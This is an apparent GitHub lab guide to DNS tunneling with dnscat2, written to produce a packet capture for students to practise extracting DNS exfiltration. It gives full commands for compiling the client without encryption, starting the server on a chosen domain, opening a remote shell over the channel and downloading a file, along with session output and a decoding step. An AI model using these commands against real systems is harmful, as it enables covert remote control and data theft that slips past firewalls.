

# DNS Tunneling with dnscat2

This guide demonstrates how to set up and use dnscat2 for DNS tunneling, covering client/server configuration, session management, and traffic decoding. This covers only the clear text encoding. The goal of this experiment is to provide a network capture (pcap file) for students to script and extract DNS Exfiltration.


## Client Configuration

The first step is to install and compile the client on the target machine. In this example, I used the ready-to-use client source from the creator's website.

Version used: dnscat2-v0.07-client-source.zip

SHA256: d99da192621e1aae19eb26685a0f6668675cd130eaba8a5666c03f464718117f

### Download and unzip the client
```bash
curl https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-source.zip -o file.zip
unzip file.zip
cd ./dnscat2_client/
```

### Compile without encryption
```bash
make nocrypto 
```
> **_NOTE:_** nocrypto: Using nocrypto prevents the compilation of symmetric encryption components (session keys). By default, dnscat2 encrypts all data (even if --no-encryption is specified). While the developer suggests the server should block nocrypto clients, this restriction is not enforced in the current version.

## Server Configuration

The server is written in Ruby, so no compilation is required. We clone it directly from the official GitHub repository.
```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
```
### Check help options
```bash
sudo ruby ./dnscat2.rb --help
```
> **_NOTE:_** It is recommended to run ``` sudo gem install bundler ``` and ``` sudo bundle install ``` before executing the ```dnscat2.rb``` script, though these may already be present on systems like Kali Linux.

### Starting the Server

We will set up the DNS server to listen for requests using the domain dinosupersecure.be on port 53. It exists multiple option to the ```dnscat2.rb``` script (shared secret auth, caching, etc.).
```bash
sudo ruby ./dnscat2.rb --dns 'host=0.0.0.0,port=53,domain=dinosupersecure.be' --security open
```

```--security open```: Allows the client to choose the security level.

Multi-domain support: You can specify multiple domains, but the client will generally stick to one for the duration of the flow.

### Server Output:
```bash
New window created: 0
New window created: crypto-debug
Welcome to dnscat2! 

Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = dinosupersecure.be]...

To talk directly to the server without a domain name, run:
  ./dnscat --dns server=x.x.x.x,port=53 --secret=[KEY]

dnscat2> 
```
## Client Connection

Connect to the server (IP 192.168.0.188) using the compiled client. We explicitly disable encryption for this lab (packets will still be Hex-encoded).
```Bash
./dnscat --dns domain=dinosupersecure.be,server=192.168.0.188,port=53 --no-encryption -q
```
```-q```: Quiet mode. Reduces the amount of session information displayed on the target's shell.

Connection Status on client side:
```
Creating DNS driver:
 domain = dinosupersecure.be
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 192.168.0.188
Session established!
```
Connection Status on server side:
```
dnscat2> New window created: 1
Session 1 security: UNENCRYPTED
```
```UNENCRYPTED``` is important; if ```ENCRYPTED``` then a session key has been established.

> [!IMPORTANT]
> Important: If the client does not detect a DNS server on the specified IP/Port within 20 seconds, the session will automatically terminate.

## Server Usage and Command Execution

To manage active sessions, use the ```windows``` command, then ```window -i <id>``` to interact. Once inside the session, different actions can be made (such as starting a shell where the compiled client is on the client; exfiltrate or push files).

Example Workflow:
```
dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = dinosupersecure.be [*]
  1 :: command (debian) [cleartext] [*]
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: UNENCRYPTED
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (debian) 1> help

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows
command (debian) 1> shell
Sent request to execute a shell
New window created: 2
Shell session created!
command (debian) 1> window -i 2 # Ouvre un nouveau visuel sur le serveur
command (debian) 1> download ../sample.sql # On est bien ici dans window -i 1
Attempting to download ../sample.sql to sample.sql
command (debian) 1> Wrote 1097 bytes from ../sample.sql to sample.sql!
command (debian) 1> shutdown
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = dinosupersecure.be [*]
  1 :: command (debian) [cleartext] [*]
dnscat2> window -i 1
New window created: 2
Session 2 security: UNENCRYPTED
Session 2 killed: Received FIN! Bye!
dnscat2> 
dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = dinosupersecure.be [*]
  1 :: command (debian) [cleartext]
dnscat2> window -i 1
Session 1 killed: The driver requested it be stopped! 
```

Each subcommand possess a ```--help```.

In this example, a connnection to session 1 was made on which a shell was started (```shell```). After that, a connection to the shell is made (```windows -i 2```), You can't see the specific shell interactions in this view, but I simply executed a ```pwd``` to verify my location. After that, I navigated back to session 1 to exfiltrate a SQL file using ```download ../sample.sql```. Finally, I terminated the connection with the ```shutdown``` command.

On the client side, despite using the quiet mode (```-q```), session details were still leaked to ```stdout```:
```shell
Got a command: COMMAND_SHELL [request] :: request_id: 0x0001 :: name: shell
Response: COMMAND_SHELL [response] :: request_id: 0x0001 :: session_id: 0x5261
Session established!
[[ FATAL ]] :: Received FIN: (reason: 'Session killed: Received FIN! Bye!') - closing session
Got a command: COMMAND_DOWNLOAD [request] :: request_id: 0x0002 :: filename: ../sample.sql
Response: COMMAND_DOWNLOAD [response] :: request_id: 0x0002 :: data: 0x449 bytes
[[ FATAL ]] :: Received FIN: (reason: 'Session killed: The driver requested it be stopped!') - closing session
[[ FATAL ]] :: There are no active sessions left! Goodbye!
```

## PCAP Decoding

To analyze the exfiltrated data, I created a Python script (```dnscat2-decoder.py```) leveraging Scapy to decode the DNS queries.

Usage:
```Bash
python3 dnscat2-decode.py sample.pcapng dinosupersecure.be
```
The script outputs the reconstructed data in a txt file (```output.txt```). Below is the decoded content from our sample exfiltration (showing a ```pwd``` command and the contents of a SQL file):
```SQL
command (debian)sh (debian)[controller
/home/user/dnscat/dnscat2_client/
am closedM-- SQL File: simple_database.sql
-- Purpose:  Creates two simple tables and adds sample data.

-- Table: users
-- Purpose: Stores customer/user information.

DROP TABLE IF EXISTS users;
CREATE TABLE users (
user_id INT AUTO_INCREMENT PRIMARY KEY,
username VARCHAR(50) NOT NULL UNIQUE,
email VARCHAR(100) NOT NULL UNIQUE,
created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

-- Table: products
-- Purpose: Stores product catalog information.

DROP TABLE IF EXISTS products;
CREATE TABLE products (
product_id INT AUTO_INCREMENT PRIMARY KEY,
product_name VARCHAR(100) NOT NULL,
price DECIMAL(10, 2) NOT NULL,
stock_quantity INT NOT NULL DEFAULT 0
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

-- Sample Data Insertion

-- Insert sample users
INSERT INTO users (username, email)
VALUES
('johndoe', 'john.doe@example.com'),
('janedoe', 'jane.doe@example.com');

-- Insert sample products
INSERT INTO products (product_name, price, stock_quantity)
VALUES
('Laptop', 1200.00, 50),
('Mouse', 45.50, 150),
('Keyboard', 89.99, 100);

-- Finalization

COMMIT;
-- End of file
```
This documentation provides a baseline for understanding how DNS tunneling bypasses traditional firewall rules by encapsulating data within standard DNS queries. This experiment has been done only for educational purposes.

You can find the network capture on the repository (```sample.pcapng```)